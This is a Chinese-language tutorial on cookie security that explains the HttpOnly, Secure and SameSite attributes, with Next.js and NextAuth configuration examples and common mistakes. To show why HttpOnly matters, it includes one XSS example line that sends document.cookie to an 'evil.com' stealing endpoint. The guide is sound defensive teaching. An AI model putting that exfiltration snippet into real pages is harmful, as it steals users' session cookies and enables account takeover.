

# 6.2.3 Cookie 安全：HttpOnly/Secure/SameSite 属性

## 一句话破题

Cookie 的三个安全属性——HttpOnly、Secure、SameSite——是防御 XSS 和 CSRF 攻击的第一道防线。

## Cookie 安全属性详解

### HttpOnly：防止 JavaScript 读取

```typescript
// 设置 HttpOnly 后，document.cookie 无法读取
Set-Cookie: sessionId=abc123; HttpOnly
```

**作用**：阻止 XSS 攻击者通过 JavaScript 窃取 Cookie

```javascript
// 如果没有 HttpOnly，攻击者可以：
<script>
  // 窃取用户 cookie 发送到攻击者服务器
  fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>

// 设置 HttpOnly 后，document.cookie 返回空
```

### Secure：仅通过 HTTPS 传输

```typescript
Set-Cookie: sessionId=abc123; Secure
```

**作用**：防止 Cookie 在 HTTP 明文传输中被窃听



### SameSite：防止跨站请求携带

| 值 | 行为 | 适用场景 |
|----|------|----------|
| `Strict` | 完全禁止跨站携带 | 敏感操作（银行、支付） |
| `Lax` | 允许导航携带，禁止 POST | 默认推荐 |
| `None` | 允许跨站携带（需配合 Secure） | 跨站集成场景 |

```typescript
// Strict：最严格，任何跨站请求都不携带
Set-Cookie: sessionId=abc123; SameSite=Strict

// Lax：允许从外站链接点击过来时携带
Set-Cookie: sessionId=abc123; SameSite=Lax

// None：允许跨站请求携带（必须配合 Secure）
Set-Cookie: sessionId=abc123; SameSite=None; Secure
```

## 实际配置示例

### Next.js API Route

```typescript
// app/api/login/route.ts
import { NextResponse } from 'next/server'

export async function POST(request: Request) {
  const response = NextResponse.json({ success: true })
  
  response.cookies.set('sessionId', 'abc123', {
    httpOnly: true,
    secure: process.env.NODE_ENV === 'production',
    sameSite: 'lax',
    maxAge: 60 * 60 * 24, // 1 天
    path: '/',
  })
  
  return response
}
```

### NextAuth 配置

```typescript
export const authOptions: NextAuthOptions = {
  cookies: {
    sessionToken: {
      name: 'next-auth.session-token',
      options: {
        httpOnly: true,
        secure: process.env.NODE_ENV === 'production',
        sameSite: 'lax',
        path: '/',
      },
    },
  },
}
```

## 常见场景与配置策略

### 场景一：普通 Web 应用

```typescript
// 推荐配置
{
  httpOnly: true,
  secure: true,
  sameSite: 'lax',
}
```

### 场景二：需要跨域的 API

```typescript
// 如果前端和后端在不同域
{
  httpOnly: true,
  secure: true,
  sameSite: 'none', // 必须配合 secure
}
```

### 场景三：嵌入 iframe 的应用

```typescript
// 被其他网站嵌入时需要
{
  httpOnly: true,
  secure: true,
  sameSite: 'none',
}
```

## Cookie 安全检查工具

在浏览器开发者工具中检查 Cookie 设置：

1. 打开 DevTools → Application → Cookies
2. 检查每个 Cookie 的属性列
3. 确保敏感 Cookie 都有正确的安全属性

## 常见错误

### 错误 1：开发环境使用 Secure

```typescript
// ❌ 开发环境使用 Secure 会导致 Cookie 无法设置
secure: true // localhost 是 http，不是 https

// ✅ 根据环境动态设置
secure: process.env.NODE_ENV === 'production'
```

### 错误 2：SameSite=None 未配合 Secure

```typescript
// ❌ 浏览器会拒绝设置
sameSite: 'none'

// ✅ 必须配合 Secure
sameSite: 'none',
secure: true
```

::: tip Cookie 安全配置清单
1. [ ] 所有敏感 Cookie 设置 HttpOnly
2. [ ] 生产环境设置 Secure
3. [ ] 根据场景选择合适的 SameSite 值
4. [ ] 设置合理的过期时间
5. [ ] 限制 Cookie 的 Path 范围
:::
